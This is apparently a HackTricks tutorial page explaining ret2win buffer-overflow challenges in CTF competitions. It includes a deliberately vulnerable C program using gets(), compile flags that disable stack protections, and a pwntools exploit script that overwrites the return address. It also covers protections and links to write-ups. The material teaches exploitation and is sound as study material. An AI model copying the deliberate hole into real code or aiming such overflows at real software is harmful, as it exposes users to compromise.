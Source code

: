 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**Ret2win** challenges are a popular category in **Capture The Flag (CTF)** competitions, particularly in tasks that involve **binary exploitation**. The goal is to exploit a vulnerability in a given binary to execute a specific, uninvoked function within the binary, often named something like `win`, `flag`, etc. This function, when executed, usually prints out a flag or a success message. The challenge typically involves overwriting the **return address** on the stack to divert execution flow to the desired function. Here's a more detailed explanation with examples:

### C Example

Consider a simple C program with a vulnerability and a `win` function that we intend to call:

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
    char buf[64];
    gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
    vulnerable_function();
    return 0;
}
```

To compile this program without stack protections and with **ASLR** disabled, you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

- `-m32`: Compile the program as a 32-bit binary (this is optional but common in CTF challenges).
- `-fno-stack-protector`: Disable protections against stack overflows.
- `-z execstack`: Allow execution of code on the stack.
- `-no-pie`: Disable Position Independent Executable to ensure that the address of the `win` function does not change.
- `-o vulnerable`: Name the output file `vulnerable`.

### Python Exploit using Pwntools

For the exploit, we'll use **pwntools**, a powerful CTF framework for writing exploits. The exploit script will create a payload to overflow the buffer and overwrite the return address with the address of the `win` function.

```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```

To find the address of the `win` function, you can use **gdb**, **objdump**, or any other tool that allows you to inspect binary files. For instance, with `objdump`, you could use:

```sh
objdump -d vulnerable | grep win
```

This command will show you the assembly of the `win` function, including its starting address.&#x20;

The Python script sends a carefully crafted message that, when processed by the `vulnerable_function`, overflows the buffer and overwrites the return address on the stack with the address of `win`. When `vulnerable_function` returns, instead of returning to `main` or exiting, it jumps to `win`, and the message is printed.

## Protections

- [**PIE**](../../common-binary-protections-and-bypasses/pie/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded. In some cases, when the function that causes the overflow is `read` or similar, you can do a **Partial Overwrite** of 1 or 2 bytes to change the return address to be the win function. Because of how ASLR works, the last three hex nibbles are not randomized, so there is a **1/16 chance** (1 nibble) to get the correct return address.
- [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.

## Other examples & References

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
  - 32bit, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
  - 64 bits with ASLR, with a leak of the bin address
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
  - 64 bits, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
  - 32 bits, no ASLR, double small overflow, first to overflow the stack and enlarge the size of the second overflow
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
  - 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
- [https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html)
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html)
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html](https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html)
  - The program is only validating the last byte of a number to check for the size of the input, therefore it's possible to add any zie as long as the last byte is inside the allowed range. Then, the input creates a buffer overflow exploited with a ret2win.
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
  - 64 bit, relro, no canary, nx, pie. Partial overwrite to call the win function (ret2win)
- [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
  - arm64, PIE, it gives a PIE leak the win function is actually 2 functions so ROP gadget that calls 2 functions
- [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
  - ARM64, off-by-one to call a win function

## ARM64 Example

{{#ref}}
ret2win-arm64.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}



